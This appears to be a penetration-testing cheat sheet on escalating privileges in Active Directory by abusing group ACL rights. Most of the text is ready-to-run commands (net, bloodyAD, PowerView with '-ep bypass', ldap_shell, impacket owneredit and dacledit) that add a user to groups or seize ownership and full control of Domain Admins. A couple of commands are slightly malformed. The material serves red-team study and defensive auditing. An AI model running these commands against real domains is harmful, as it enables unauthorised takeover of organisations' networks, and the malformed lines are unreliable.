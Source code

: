 # ACLs/ACEs permissions on Group

### AddSelf (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

#### 3) Linux Net RPC - Samba

    net rpc group addmem "GROUP" "USER" -U domain.local/USER%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER" -p "Password@1" add groupMember "GROUP" "USER"

#### 5) Powerview

    powershell -ep bypass
    
    Import-Module .PowerView.ps1
    
    $SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
    
    $Cred = New-Object
    
    System.Management.Automation.PSCredential('domain.local\USER1', $SecPassword)
    
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER1' -Credential

    $Cred

#### 6) Ldap_shell

    ldap_shell domain.local/USER1:Password@1 -dc-ip DC_IP
    add_user_to_group USER1 "GROUP"

#### 7) Active Directory Module

    Get-Module -Name ActiveDirectory -ListAvailable
    Import-Module -Name ActiveDirectory
    Add-ADGroupMember -Identity 'GROUP' -Members 'USER1'

#### 8) Addusertogroup python script

Link: https://github.com/juliourena/ActiveDirectoryScripts/blob/main/Python/addusertogroup.py

    python3 addusertogroup.py -d domain.local -g "GROUP" -a USER1 -u USER1 -p PASSWORD@1

### WriteOwner on Group

WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py

#### 1) impacket-owneredit

Grant our user ownership of the Domain Admins group (example)

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

Grant our user Full Control of the Domain Admins group (example)

    impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'USER1' - target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 3) Linux Net RPC - Samba

    net rpc group addmem "Domain Admins" USER1 -U domain.local/USER1%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" add groupMember "Domain Admins" "USER1"

#### 5) Powerview

Grant Ownership and Full Control

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "USER1"

#### 6) Windows Net command

    net group "domain admins" USER1 /add /domain


